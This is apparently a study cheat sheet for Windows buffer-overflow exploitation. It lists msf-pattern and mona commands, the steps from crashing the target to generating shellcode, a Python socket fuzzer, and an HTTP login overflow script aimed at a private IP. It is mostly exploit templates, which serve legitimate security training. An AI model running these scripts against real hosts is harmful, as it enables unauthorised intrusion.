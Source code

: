 ## Win

### BUFFER OVERFLOW COMMANDS
```bash
msf-pattern_create -l 4000
msf-pattern_offset -l 4000 -q 39794338
!mona modules
!mona find -s "\xFF\xE4" –m "<MODULE>"
```



### Steps

1. Crash The Application: Send "A"*<NUMBER>
2. Find EIP: Replace "A" w/ pattern_create.rb -l LENGTH
3. Control ESP: !mona findmsp (@crashtime), pattern_offset.rb, !mona pattern_offset eip
4. Identify Bad Characters
5. Find JMP ESP
6. Generate Shell Code



### BUFFER OVERFLOW FUZZING SCRIPT

```python
#!/usr/bin/python
import socket
RHOST = ""
RPORT = ####
buf = "A" * 4000
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))
print "Sending buf"
s.send(buf + '\n')
```



### BUFFER OVERFLOW OVER HTTP SCRIPT

```python
content = "username=" + inputBuffer + "&password=A"

buffer = "POST /login HTTP/1.1\r\n"
buffer += "Host: <IP>\r\n"
buffer += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
buffer += "Accept-Language: en-US,en;q=0.5\r\n"
buffer += "Referer: http://<IP>/login\r\n"
buffer += "Connection: close\r\n"
buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
buffer += "Content-Length:  "+str(len(content))+"\r\n"
buffer += "\r\n"

buffer += content

s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)

s.connect(("192.168.139.10", 80))
s.send(buffer)

s.close()
```
